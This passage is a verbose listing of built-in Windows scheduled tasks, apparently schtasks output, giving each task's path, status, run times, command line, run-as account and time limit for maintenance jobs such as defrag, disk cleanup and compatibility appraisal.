Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\AppID\PolicyConverter
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        10/2/2026 10:31:15 PM
Task To Run:                          %windir%\system32\appidpolicyconverter.exe 
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 72:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\AppID\VerifiedPublisherCertStoreCheck
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        10/2/2026 11:09:29 PM
Task To Run:                          %windir%\system32\appidcertstorecheck.exe 
Run As User:                          LOCAL SERVICE
Stop Task If Runs X Hours and X Mins: 72:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\Application Experience\Microsoft Compatibility Appraiser
Next Run Time:                        10/3/2026 4:31:21 AM
Status:                               Ready
Last Run Time:                        10/2/2026 10:35:17 PM
Task To Run:                          %windir%\system32\compattelrunner.exe 
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 96:00:00
Repeat: Stop If Still Running:        Disabled
TaskName:                             \Microsoft\Windows\Application Experience\Microsoft Compatibility Appraiser
Next Run Time:                        10/3/2026 4:44:01 AM
Status:                               Ready
Last Run Time:                        10/2/2026 10:35:17 PM
Task To Run:                          %windir%\system32\compattelrunner.exe 
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 96:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\Application Experience\Microsoft Compatibility Appraiser
Next Run Time:                        10/3/2026 3:27:57 AM
Status:                               Ready
Last Run Time:                        10/2/2026 10:35:17 PM
Task To Run:                          %windir%\system32\compattelrunner.exe 
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 96:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\Application Experience\ProgramDataUpdater
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        10/2/2026 10:39:30 PM
Task To Run:                          %windir%\system32\compattelrunner.exe -maintenance
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 72:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\Application Experience\StartupAppTask
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        11/28/2025 11:19:42 AM
Task To Run:                          %windir%\system32\rundll32.exe Startupscan.dll,SusRunTask
Run As User:                          INTERACTIVE
Stop Task If Runs X Hours and X Mins: 72:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\ApplicationData\appuriverifierdaily
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        10/28/2025 10:05:19 AM
Task To Run:                          %windir%\system32\AppHostRegistrationVerifier.exe 
Run As User:                          INTERACTIVE
Stop Task If Runs X Hours and X Mins: 00:15:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\ApplicationData\appuriverifierinstall
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        11/30/1999 12:00:00 AM
Task To Run:                          %windir%\system32\AppHostRegistrationVerifier.exe 
Run As User:                          INTERACTIVE
Stop Task If Runs X Hours and X Mins: 00:15:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\ApplicationData\CleanupTemporaryState
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        10/2/2026 10:39:30 PM
Task To Run:                          %windir%\system32\rundll32.exe Windows.Storage.ApplicationData.dll,CleanupTemporaryState
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 72:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\ApplicationData\DsSvcCleanup
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        10/2/2026 10:39:30 PM
Task To Run:                          %windir%\system32\dstokenclean.exe 
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 72:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\AppxDeploymentClient\Pre-staged app cleanup
Next Run Time:                        N/A
Status:                               Disabled
Last Run Time:                        4/19/2024 6:26:06 PM
Task To Run:                          %windir%\system32\rundll32.exe %windir%\system32\AppxDeploymentClient.dll,AppxPreStageCleanupRunTask
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: Disabled
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\Autochk\Proxy
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        10/2/2026 11:09:29 PM
Task To Run:                          %windir%\system32\rundll32.exe /d acproxy.dll,PerformAutochkOperations
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 72:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\BitLocker\BitLocker Encrypt All Drives
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        11/30/1999 12:00:00 AM
Task To Run:                          COM handler
Run As User:                          INTERACTIVE
Stop Task If Runs X Hours and X Mins: 72:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\BitLocker\BitLocker MDM policy Refresh
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        11/30/1999 12:00:00 AM
Task To Run:                          COM handler
Run As User:                          INTERACTIVE
Stop Task If Runs X Hours and X Mins: 72:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\Bluetooth\UninstallDeviceTask
Next Run Time:                        N/A
Status:                               Disabled
Last Run Time:                        11/30/1999 12:00:00 AM
Task To Run:                          BthUdTask.exe $(Arg0)
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 72:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\BrokerInfrastructure\BgTaskRegistrationMaintenanceTask
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        10/2/2026 10:39:30 PM
Task To Run:                          COM handler
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 00:06:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\Chkdsk\ProactiveScan
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        10/2/2026 10:39:30 PM
Task To Run:                          COM handler
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 72:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\Chkdsk\SyspartRepair
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        11/30/1999 12:00:00 AM
Task To Run:                          %windir%\system32\bcdboot.exe %windir% /sysrepair
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 72:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\CloudExperienceHost\CreateObjectTask
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        11/30/1999 12:00:00 AM
Task To Run:                          COM handler
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 01:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\Customer Experience Improvement Program\Consolidator
Next Run Time:                        10/3/2026 6:00:00 AM
Status:                               Ready
Last Run Time:                        10/3/2026 12:00:01 AM
Task To Run:                          %SystemRoot%\System32\wsqmcons.exe 
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 72:00:00
Repeat: Stop If Still Running:        Disabled
TaskName:                             \Microsoft\Windows\Customer Experience Improvement Program\UsbCeip
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        10/2/2026 10:39:30 PM
Task To Run:                          COM handler
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 72:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\Data Integrity Scan\Data Integrity Scan
Next Run Time:                        10/23/2026 8:44:51 PM
Status:                               Ready
Last Run Time:                        10/2/2026 10:35:17 PM
Task To Run:                          COM handler
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: Disabled
Repeat: Stop If Still Running:        Disabled
TaskName:                             \Microsoft\Windows\Data Integrity Scan\Data Integrity Scan
Next Run Time:                        10/18/2026 4:01:03 AM
Status:                               Ready
Last Run Time:                        10/2/2026 10:35:17 PM
Task To Run:                          COM handler
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: Disabled
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\Data Integrity Scan\Data Integrity Scan for Crash Recovery
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        11/30/1999 12:00:00 AM
Task To Run:                          COM handler
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: Disabled
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\Defrag\ScheduledDefrag
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        10/2/2026 10:39:30 PM
Task To Run:                          %windir%\system32\defrag.exe -c -h -k -g -$
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 72:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\Device Information\Device
Next Run Time:                        10/3/2026 3:31:15 AM
Status:                               Ready
Last Run Time:                        10/2/2026 10:35:17 PM
Task To Run:                          %windir%\system32\devicecensus.exe 
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 96:00:00
Repeat: Stop If Still Running:        Disabled
TaskName:                             \Microsoft\Windows\Device Information\Device
Next Run Time:                        10/3/2026 3:38:46 AM
Status:                               Ready
Last Run Time:                        10/2/2026 10:35:17 PM
Task To Run:                          %windir%\system32\devicecensus.exe 
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 96:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\Diagnosis\Scheduled
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        11/28/2025 11:19:42 AM
Task To Run:                          COM handler
Run As User:                          INTERACTIVE
Stop Task If Runs X Hours and X Mins: 72:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\DirectX\DXGIAdapterCache
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        10/2/2026 10:29:17 PM
Task To Run:                          %windir%\system32\dxgiadaptercache.exe 
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 72:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\DirectX\DXGIAdapterCache
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        10/2/2026 10:29:17 PM
Task To Run:                          %windir%\system32\dxgiadaptercache.exe 
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 72:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\DiskCleanup\SilentCleanup
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        11/28/2025 11:19:42 AM
Task To Run:                          %windir%\system32\cleanmgr.exe /autoclean /d %systemdrive%
Comment:                              Maintenance task used by the system to launch a silent auto disk cleanup when running low on free disk space.
Run As User:                          Users
Stop Task If Runs X Hours and X Mins: 00:15:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\DiskDiagnostic\Microsoft-Windows-DiskDiagnosticDataCollector
Next Run Time:                        N/A
Status:                               Disabled
Last Run Time:                        10/6/2025 6:19:52 PM
Task To Run:                          %windir%\system32\rundll32.exe dfdts.dll,DfdGetDefaultPolicyAndSMART
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 72:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\DiskDiagnostic\Microsoft-Windows-DiskDiagnosticResolver
Next Run Time:                        N/A
Status:                               Disabled
Last Run Time:                        11/30/1999 12:00:00 AM
Task To Run:                          %windir%\system32\DFDWiz.exe 
Run As User:                          Users
Stop Task If Runs X Hours and X Mins: 72:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\DiskFootprint\Diagnostics
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        10/2/2026 10:39:30 PM
Task To Run:                          %windir%\system32\disksnapshot.exe -z
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 01:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\DiskFootprint\StorageSense
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        11/28/2025 11:19:42 AM
Task To Run:                          COM handler
Run As User:                          Users
Stop Task If Runs X Hours and X Mins: 01:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\EDP\EDP App Launch Task
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        11/30/1999 12:00:00 AM
Task To Run:                          COM handler
Run As User:                          INTERACTIVE
Stop Task If Runs X Hours and X Mins: 72:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\EDP\EDP Auth Task
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        11/30/1999 12:00:00 AM
Task To Run:                          COM handler
Run As User:                          INTERACTIVE
Stop Task If Runs X Hours and X Mins: 72:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\EDP\EDP Inaccessible Credentials Task
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        11/30/1999 12:00:00 AM
Task To Run:                          COM handler
Run As User:                          INTERACTIVE
Stop Task If Runs X Hours and X Mins: 72:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\EDP\StorageCardEncryption Task
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        11/30/1999 12:00:00 AM
Task To Run:                          COM handler
Run As User:                          INTERACTIVE
Stop Task If Runs X Hours and X Mins: 72:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\ExploitGuard\ExploitGuard MDM policy Refresh
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        10/2/2026 10:29:17 PM
Task To Run:                          COM handler
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 72:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\ExploitGuard\ExploitGuard MDM policy Refresh
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        10/2/2026 10:29:17 PM
Task To Run:                          COM handler
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 72:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\ExploitGuard\ExploitGuard MDM policy Refresh
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        10/2/2026 10:29:17 PM
Task To Run:                          COM handler
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 72:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\File Classification Infrastructure\Property Definition Sync
Next Run Time:                        N/A
Status:                               Disabled
Last Run Time:                        11/30/1999 12:00:00 AM
Task To Run:                          COM handler
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 00:05:00
Repeat: Stop If Still Running:        Disabled
TaskName:                             \Microsoft\Windows\Flighting\FeatureConfig\ReconcileFeatures
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        11/28/2025 10:21:14 AM
Task To Run:                          COM handler
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 00:05:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\Flighting\OneSettings\RefreshCache
Next Run Time:                        10/3/2026 2:06:45 AM
Status:                               Ready
Last Run Time:                        10/2/2026 10:35:17 PM
Task To Run:                          COM handler
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 00:05:00
Repeat: Stop If Still Running:        Disabled
TaskName:                             \Microsoft\Windows\InstallService\ScanForUpdates
Next Run Time:                        N/A
Status:                               Disabled
Last Run Time:                        11/28/2025 11:24:41 AM
Task To Run:                          COM handler
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 04:00:00
Repeat: Stop If Still Running:        Disabled
TaskName:                             \Microsoft\Windows\InstallService\ScanForUpdates
Next Run Time:                        N/A
Status:                               Disabled
Last Run Time:                        11/28/2025 11:24:41 AM
Task To Run:                          COM handler
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 04:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\InstallService\ScanForUpdates
Next Run Time:                        N/A
Status:                               Disabled
Last Run Time:                        11/28/2025 11:24:41 AM
Task To Run:                          COM handler
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 04:00:00
Repeat: Stop If Still Running:        Disabled
TaskName:                             \Microsoft\Windows\InstallService\ScanForUpdatesAsUser
Next Run Time:                        N/A
Status:                               Disabled
Last Run Time:                        11/28/2025 11:19:42 AM
Task To Run:                          COM handler
Run As User:                          INTERACTIVE
Stop Task If Runs X Hours and X Mins: 04:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\InstallService\WakeUpAndContinueUpdates
Next Run Time:                        N/A
Status:                               Disabled
Last Run Time:                        11/30/1999 12:00:00 AM
Task To Run:                          COM handler
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 04:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\InstallService\WakeUpAndScanForUpdates
Next Run Time:                        N/A
Status:                               Disabled
Last Run Time:                        11/30/1999 12:00:00 AM
Task To Run:                          COM handler
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 04:00:00
Repeat: Stop If Still Running:        Disabled
TaskName:                             \Microsoft\Windows\Location\Notifications
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        11/30/1999 12:00:00 AM
Task To Run:                          %windir%\System32\LocationNotificationWindows.exe 
Run As User:                          Authenticated Users
Stop Task If Runs X Hours and X Mins: Disabled
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\Location\WindowsActionDialog
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        11/30/1999 12:00:00 AM
Task To Run:                          %windir%\System32\WindowsActionDialog.exe 
Run As User:                          Authenticated Users
Stop Task If Runs X Hours and X Mins: Disabled
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\Maintenance\WinSAT
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        11/28/2025 11:27:06 AM
Task To Run:                          COM handler
Run As User:                          Administrators
Stop Task If Runs X Hours and X Mins: 00:30:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\Maps\MapsToastTask
Next Run Time:                        N/A
Status:                               Disabled
Last Run Time:                        11/30/1999 12:00:00 AM
Task To Run:                          COM handler
Run As User:                          INTERACTIVE
Stop Task If Runs X Hours and X Mins: 00:00:05
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\Maps\MapsUpdateTask
Next Run Time:                        N/A
Status:                               Disabled
Last Run Time:                        11/30/1999 12:00:00 AM
Task To Run:                          COM handler
Run As User:                          NETWORK SERVICE
Stop Task If Runs X Hours and X Mins: 00:00:40
Repeat: Stop If Still Running:        Disabled
TaskName:                             \Microsoft\Windows\MemoryDiagnostic\ProcessMemoryDiagnosticEvents
Next Run Time:                        N/A
Status:                               Disabled
Last Run Time:                        11/30/1999 12:00:00 AM
Task To Run:                          COM handler
Run As User:                          Administrators
Stop Task If Runs X Hours and X Mins: 02:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\MemoryDiagnostic\ProcessMemoryDiagnosticEvents
Next Run Time:                        N/A
Status:                               Disabled
Last Run Time:                        11/30/1999 12:00:00 AM
Task To Run:                          COM handler
Run As User:                          Administrators
Stop Task If Runs X Hours and X Mins: 02:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\MemoryDiagnostic\ProcessMemoryDiagnosticEvents
Next Run Time:                        N/A
Status:                               Disabled
Last Run Time:                        11/30/1999 12:00:00 AM
Task To Run:                          COM handler
Run As User:                          Administrators
Stop Task If Runs X Hours and X Mins: 02:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\MemoryDiagnostic\ProcessMemoryDiagnosticEvents
Next Run Time:                        N/A
Status:                               Disabled
Last Run Time:                        11/30/1999 12:00:00 AM
Task To Run:                          COM handler
Run As User:                          Administrators
Stop Task If Runs X Hours and X Mins: 02:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\MemoryDiagnostic\RunFullMemoryDiagnostic
Next Run Time:                        N/A
Status:                               Disabled
Last Run Time:                        11/30/1999 12:00:00 AM
Task To Run:                          COM handler
Run As User:                          Administrators
Stop Task If Runs X Hours and X Mins: 02:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\Mobile Broadband Accounts\MNO Metadata Parser
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        11/30/1999 12:00:00 AM
Task To Run:                          %SystemRoot%\System32\MbaeParserTask.exe 
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 00:03:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\MUI\LPRemove
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        10/2/2026 10:39:30 PM
Task To Run:                          %windir%\system32\lpremove.exe 
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 09:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\Multimedia\SystemSoundsService
Next Run Time:                        N/A
Status:                               Disabled
Last Run Time:                        11/30/1999 12:00:00 AM
Task To Run:                          COM handler
Run As User:                          Users
Stop Task If Runs X Hours and X Mins: Disabled
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\NetTrace\GatherNetworkInfo
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        11/30/1999 12:00:00 AM
Task To Run:                          %windir%\system32\gatherNetworkInfo.vbs 
Run As User:                          Users
Stop Task If Runs X Hours and X Mins: 72:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\Offline Files\Background Synchronization
Next Run Time:                        N/A
Status:                               Disabled
Last Run Time:                        11/30/1999 12:00:00 AM
Task To Run:                          COM handler
Run As User:                          Authenticated Users
Stop Task If Runs X Hours and X Mins: 24:00:00
Repeat: Stop If Still Running:        Disabled
TaskName:                             \Microsoft\Windows\Offline Files\Logon Synchronization
Next Run Time:                        N/A
Status:                               Disabled
Last Run Time:                        11/30/1999 12:00:00 AM
Task To Run:                          COM handler
Run As User:                          Authenticated Users
Stop Task If Runs X Hours and X Mins: 24:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\PI\SecureBootEncodeUEFI
Next Run Time:                        10/15/2026 12:00:00 PM
Status:                               Ready
Last Run Time:                        12/9/2025 1:12:05 PM
Task To Run:                          %WINDIR%\system32\SecureBootEncodeUEFI.exe 
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 00:00:10
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\PI\SecureBootEncodeUEFI
Next Run Time:                        10/15/2026 12:00:00 PM
Status:                               Ready
Last Run Time:                        12/9/2025 1:12:05 PM
Task To Run:                          %WINDIR%\system32\SecureBootEncodeUEFI.exe 
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 00:00:10
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\PI\SecureBootEncodeUEFI
Next Run Time:                        10/15/2026 12:00:00 PM
Status:                               Ready
Last Run Time:                        12/9/2025 1:12:05 PM
Task To Run:                          %WINDIR%\system32\SecureBootEncodeUEFI.exe 
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 00:00:10
Repeat: Stop If Still Running:        Disabled
TaskName:                             \Microsoft\Windows\PLA\Server Manager Performance Monitor
Next Run Time:                        N/A
Status:                               Disabled
Last Run Time:                        11/30/1999 12:00:00 AM
Task To Run:                          %systemroot%\system32\rundll32.exe %systemroot%\system32\pla.dll,PlaHost "Server Manager Performance Monitor" "$(Arg0)"
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: Disabled
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\Plug and Play\Device Install Group Policy
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        11/28/2025 10:21:14 AM
Task To Run:                          COM handler
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 24:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\Plug and Play\Device Install Reboot Required
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        12/9/2025 2:20:26 PM
Task To Run:                          COM handler
Run As User:                          INTERACTIVE
Stop Task If Runs X Hours and X Mins: 72:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\Plug and Play\Device Install Reboot Required
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        12/9/2025 2:20:26 PM
Task To Run:                          COM handler
Run As User:                          INTERACTIVE
Stop Task If Runs X Hours and X Mins: 72:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\Plug and Play\Sysprep Generalize Drivers
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        11/30/1999 12:00:00 AM
Task To Run:                          %SystemRoot%\System32\drvinst.exe 6
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 72:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\Power Efficiency Diagnostics\AnalyzeSystem
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        10/2/2026 10:55:18 PM
Task To Run:                          COM handler
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 00:05:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\RecoveryEnvironment\VerifyWinRE
Next Run Time:                        N/A
Status:                               Disabled
Last Run Time:                        4/30/2024 12:03:36 PM
Task To Run:                          COM handler
Run As User:                          Administrators
Stop Task If Runs X Hours and X Mins: 01:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\Server Manager\CleanupOldPerfLogs
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        11/30/1999 12:00:00 AM
Task To Run:                          %systemroot%\system32\cscript.exe /B /nologo %systemroot%\system32\calluxxprovider.vbs $(Arg0) $(Arg1) $(Arg2)
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 00:02:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\Server Manager\ServerManager
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        12/9/2025 2:20:26 PM
Task To Run:                          %windir%\system32\ServerManagerLauncher.exe 
Run As User:                          Administrators
Stop Task If Runs X Hours and X Mins: Disabled
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\Servicing\StartComponentCleanup
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        10/2/2026 10:39:30 PM
Task To Run:                          COM handler
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 01:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\SharedPC\Account Cleanup
Next Run Time:                        N/A
Status:                               Disabled
Last Run Time:                        11/30/1999 12:00:00 AM
Task To Run:                          %windir%\System32\rundll32.exe %windir%\System32\Windows.SharedPC.AccountManager.dll,StartMaintenance
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 00:30:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\Shell\CreateObjectTask
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        10/19/2025 1:38:15 PM
Task To Run:                          COM handler
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 00:00:30
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\Shell\IndexerAutomaticMaintenance
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        10/2/2026 10:39:30 PM
Task To Run:                          COM handler
Run As User:                          LOCAL SERVICE
Stop Task If Runs X Hours and X Mins: 72:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\Software Inventory Logging\Collection
Next Run Time:                        N/A
Status:                               Disabled
Last Run Time:                        11/30/1999 12:00:00 AM
Task To Run:                          %systemroot%\system32\cmd.exe /d /c %systemroot%\system32\silcollector.cmd publish
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 00:10:00
Repeat: Stop If Still Running:        Disabled
TaskName:                             \Microsoft\Windows\Software Inventory Logging\Configuration
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        10/2/2026 10:30:17 PM
Task To Run:                          %systemroot%\system32\cmd.exe /d /c %systemroot%\system32\silcollector.cmd configure
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 00:02:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\SpacePort\SpaceAgentTask
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        11/30/1999 12:00:00 AM
Task To Run:                          %windir%\system32\SpaceAgent.exe 
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 06:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\SpacePort\SpaceAgentTask
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        11/30/1999 12:00:00 AM
Task To Run:                          %windir%\system32\SpaceAgent.exe 
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 06:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\SpacePort\SpaceManagerTask
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        11/30/1999 12:00:00 AM
Task To Run:                          %windir%\system32\spaceman.exe /Work
Run As User:                          SYSTEM
